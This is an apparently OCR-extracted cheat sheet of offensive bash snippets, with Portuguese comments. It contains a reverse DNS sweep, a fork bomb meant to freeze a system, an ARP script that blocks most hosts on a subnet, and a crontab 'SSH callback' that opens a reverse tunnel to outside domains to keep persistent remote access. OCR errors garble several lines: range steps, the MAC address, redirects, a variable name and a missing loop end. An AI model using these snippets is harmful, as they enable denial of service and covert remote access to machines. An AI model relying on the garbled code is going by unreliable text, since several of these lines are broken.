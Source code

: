 AUTOMATED DOMAIN NAME RESOLVE

```
#!/bin/bash 
echo "Enter Class C Range: i.e. 192.168.3" 
read range 
for ip in {1 .. 254 .. l};do 
host $range.$ip | grep "name pointer" | cut -d" " -f5 
done
```

FORK BOMB
(Cria Processos até o sistema travar)

```
:(){:|:&};:
```

DNS REVERSE LOOKUP

```
for ip in {1 .. 254 .. 1}; do dig -x 1.1.1.$ip | grep $ip dns.txt; done;
```

IP BANNING

```
#!/bin/sh
#Este script bane qualquer IP na sub-rede /24 para 192.168.1.0 começando em 2
#Ele assume que 1 é o roteador e não proíbe IPs .20, .21, .22
i=2
while [ $i -le 253 ]
do
	if [ $i -ne 20 -a $i -ne 21 -a $i -ne 22 ]; then
		echo "BANNED: arp -s 192.168.1.$i"
		arp -s 192.168.1.$i OO:OO:OO:OO:OO:Oa
	else
		echo "IP NOT BANNED: 192.168.1.$i "
		echo ""
	fi
	i=`expr $i +1`
done 
```

SSH CALLBACK
(Configurar script no crontab para fazer um callback a cada x minutos)

```
#!/bin/sh
killall ssh /dev/null 2 &1
sleep 5
REMLIS=4040
REMUSR=user
HOSTS="domain1.com domain2.com domain3.com"
for LIVEHOST in $HOSTS;
do
	COUNT=$(ping -c2 $LIVEHOST | grep 'received' | awk -F',' '{ print $2 }' | awk '{ print $1}')
	if [[ $COUNt -gt 0 ]] ; then
		ssh -R ${REMLIS}:localhost:22 -i "/home/${REMUSR}/.ssh/id_rsa" -N ${LIVEHOST} -l ${REMUSR}
	fi
```

